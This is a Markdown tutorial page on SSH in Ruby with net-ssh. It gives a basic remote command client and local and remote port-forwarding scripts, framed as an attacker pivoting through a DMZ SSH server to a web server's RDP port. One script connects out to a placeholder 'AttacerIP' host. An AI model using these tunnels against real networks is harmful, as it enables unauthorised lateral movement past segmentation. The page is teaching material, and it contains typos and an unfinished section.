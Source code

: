 # SSH
Here we shows some SSH using ruby
we'll need to install net-ssh gem for that

```
gem install net-ssh
```


## Simple SSH client
This is a very basic ssh client which sends and executes commands on a remote system 
```ruby
require 'net/ssh'

@hostname = "localhost"
@username = "root"
@password = "password"
@cmd = ARGV[0]

begin
  ssh = Net::SSH.start(@hostname, @username, :password => @password)
  res = ssh.exec!(@cmd)
  ssh.close
  puts res
rescue
  puts "Unable to connect to #{@hostname} using #{@username}/#{@password}"
end
```

more
https://gist.github.com/KINGSABRI/2860989

## SSH Tunneling




### Forward SSH Tunnel

```
                              |--------DMZ------|---Local Farm----|
                              |                 |                 |
|Attacker| ----SSH Tunnel---> | |SSH Server| <-RDP-> |Web server| |
                              |                 |                 |
                              |-----------------|-----------------|
```

#### Local Port Forwarding

Run ssh-ltnnel.rb on the **SSH Server** 

**ssh-ltunnel.rb**
```ruby
#!/usr/bin/evn ruby
require 'net/ssh'

Net::SSH.start("127.0.0.1", 'root', :password => '123132') do |ssh|

  ssh.forward.local('0.0.0.0', 3333, "WebServer", 3389)

  puts "[+] Starting SSH port forward tunnel"
  ssh.loop { true }
end
```

Now connect to the **SSH Server** on port 3333 from your RDP client, you'll be prompt for the **WebServer**'s RDP log-in screen

```
rdesktop WebServer:3333
```


**ssh-rtunnel.rb**
```
#!/usr/bin/evn ruby
#!/usr/bin/evn ruby
require 'net/ssh'

Net::SSH.start("AttacerIP", 'attacker', :password => '123123') do |ssh|

  ssh.forward.remote_to(3389, 'WebServer', 3333, '0.0.0.0')
  
  puts "[+] Starting SSH forward tunnel"
  ssh.loop { true }
end

```


### Reverse SSH Tunnel 
```
                              |--------DMZ------|---Local Farm----|
                              |                 |                 |
|Attacker| <---SSH Tunnel---- | |SSH Server| <-RDP-> |Web server| |
                              |                 |                 |
                              |-----------------|-----------------|
```








<br><br><br>
---





